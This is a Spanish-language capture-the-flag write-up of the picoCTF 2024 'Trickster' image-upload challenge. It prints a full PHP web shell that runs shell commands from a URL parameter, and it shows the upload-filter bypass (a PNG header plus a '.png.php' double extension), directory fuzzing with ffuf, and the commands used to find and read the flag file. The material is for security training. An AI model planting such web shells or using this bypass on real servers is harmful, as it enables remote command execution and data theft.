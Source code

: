 
I found a web app that can help process images: PNG images only!

Additional details will be available after launching your challenge instance
## Solucion

google> php web shell
https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985



```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

- le agregamos PNG al inicio
```
PNG
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>

```

## otra fuente para wl webshell

```
locate webshells/php
/usr/share/webshells/php
/usr/share/webshells/php/findsocket
/usr/share/webshells/php/php-backdoor.php
/usr/share/webshells/php/php-reverse-shell.php
/usr/share/webshells/php/qsd-php-backdoor.php
/usr/share/webshells/php/simple-backdoor.php
/usr/share/webshells/php/findsocket/findsock.c
/usr/share/webshells/php/findsocket/php-findsock-shell.php

cp /usr/share/webshells/php/simple-backdoor.php webshell.php

mv webshell.php webshell.png.php

http://atlas.picoctf.net:55599/uploads/webshell.png.php?cmd=ls

find / -name *txt

cat /var/www/html/G4ZTCOJYMJSDS.txt

```


- Intentamos subirlo, solo acepta pngs, le agregamos doble extensión
```
mv webshell.php webshell.png.php

```

- Ahora hay que encontrar donde se subio, escaneamos directorios
```
sudo apt install wordlists
sudo apt ffuf

 http://atlas.picoctf.net:54794/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -ic

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://atlas.picoctf.net:54794/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 321, Words: 53, Lines: 17, Duration: 102ms]
uploads                 [Status: 301, Size: 333, Words: 20, Lines: 10, Duration: 102ms]>)
```

```
PNG

/usr/lib/python3.9/LICENSE.txt
/usr/local/lib/php/.channels/.alias/pear.txt
/usr/local/lib/php/.channels/.alias/pecl.txt
/usr/local/lib/php/.channels/.alias/phpdocs.txt
/usr/local/lib/php/doc/Archive_Tar/docs/Archive_Tar.txt
/usr/share/perl/5.32.1/Unicode/Collate/allkeys.txt
/usr/share/perl/5.32.1/Unicode/Collate/keys.txt
/usr/share/perl/5.32.1/unicore/Blocks.txt
/usr/share/perl/5.32.1/unicore/NamedSequences.txt
/usr/share/perl/5.32.1/unicore/SpecialCasing.txt
/var/www/html/G4ZTCOJYMJSDS.txt
/var/www/html/instructions.txt
/var/www/html/robots.txt

```

```
cat /var/www/html/G4ZTCOJYMJSDS.txt
PNG

/* picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_73198bd9} */


```




[https://medium.com/@niceselol/picoctf-2024-trickster-af90f7476e18](https://medium.com/@niceselol/picoctf-2024-trickster-af90f7476e18)